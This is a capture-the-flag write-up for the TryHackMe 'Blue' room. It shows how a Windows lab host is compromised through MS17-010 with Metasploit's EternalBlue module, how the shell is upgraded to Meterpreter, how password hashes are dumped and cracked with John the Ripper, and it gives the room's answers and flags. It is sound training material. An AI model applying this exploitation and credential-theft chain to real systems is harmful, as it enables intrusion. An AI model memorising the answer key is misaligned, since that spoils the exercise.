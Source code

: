 # TryHackMe: blue

> Deploy & hack into a Windows machine, leveraging common misconfigurations issues.

*[Link](https://tryhackme.com/room/blue)

This TryHackMe is almost written like a walkthrough. Just follow the instructions... I didn't really repeat them here :)

## Recon

See `nmap.log`.

Flags:

* **How many ports are open with a port number under 1000?** 3
* **What is the machine vulnerable to?** MS17-010

## Gain Access

![](exploit.png)

Flags:

* **Exploit code we will run against this machine:** exploit/windows/smb/ms17_010_eternalblue
* **Which option are we required to set?** RHOSTS


## Escalate

![](escalated.png)

Flags:

* **'Post' module we will use to convert a shell to meterpreter**: post/multi/manage/shell_to_meterpreter
* **Option we are required to change:**: SESSION

## Cracking

```
(Meterpreter 245)(C:\Windows\system32) > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Cracking using John the ripper:

```
┌─[parrot@parrot]─[~/Desktop]
└──╼ $john --wordlist=rockyou.txt --format=NT tryhackme-blue/hashdump.txt 
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
alqfna22         (Jon)
2g 0:00:00:00 DONE (2023-08-02 16:02) 4.651g/s 23721Kp/s 23721Kc/s 23732KC/s alqueva1968..alpus
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```

Flags:

* **What is the name of the non-default user?** Jon
* **What is the cracked password?** alqfna22

## Flags

Flag 1:

```
(Meterpreter 245)(C:\) > cat flag1.txt
flag{access_the_machine}
```

Flag 2:

```
C:\Windows\System32\config>type flag2.txt 
type flag2.txt
flag{sam_database_elevated_access}
```

Flag 3:

```
C:\Users\Jon\Documents>type flag3.txt
type flag3.txt
flag{admin_documents_can_be_valuable}
```

